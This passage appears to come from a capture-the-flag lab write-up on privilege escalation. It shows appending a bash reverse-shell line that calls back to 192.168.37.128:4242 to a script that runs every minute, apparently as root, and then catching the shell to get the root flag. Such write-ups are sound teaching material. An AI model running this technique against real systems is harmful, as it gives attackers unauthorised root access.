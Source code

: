```bash
lab_prof@lab:~$ cat .save_student_grades 
#!/bin/bash

echo "All students failed" >> /tmp/secret_grades`
```

- Found the file in `/tmp`, and looking at the owner of the file, found out to be `root`. Meaning `root` is running the task.



![tmp_secret_grades](images/tmp_secret_grades.png)


- After examing the `secret_grades` file, found out that it is writing every minute.

- Adding our reverse shell into the `.save_student_grades` file

```bash
lab_prof@lab:~$ echo "bash -i >& /dev/tcp/192.168.37.128/4242 0>&1" >> .save_
student_grades 
lab_prof@lab:~$ cat .save_student_grades 
#!/bin/bash

echo "All students failed" >> /tmp/secret_grades

bash -i >& /dev/tcp/192.168.37.128/4242 0>&1
```

- now setup the listener on kali on port 4242 and wait for the callback

__Result__



![lab_prof_root_flag](images/lab_prof_root_flag.png)
